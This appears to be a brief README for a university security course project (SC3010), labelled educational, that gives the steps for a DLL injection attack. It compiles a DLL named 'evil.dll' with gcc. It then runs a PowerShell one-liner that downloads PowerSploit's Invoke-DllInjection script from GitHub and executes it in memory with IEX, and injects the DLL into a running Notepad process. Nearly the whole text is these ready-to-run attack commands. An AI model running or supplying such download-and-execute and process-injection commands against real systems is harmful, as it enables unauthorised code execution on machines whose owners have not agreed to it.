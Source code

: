 # SC3010 Project

The following codes are educational. 

To create DLL files 

`gcc -shared -o evil.dll dll.c`


To run exploit

```
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1')
Invoke-DllInjection -ProcessID $((Get-Process -Name Notepad).Id) -Dll evil.dll
```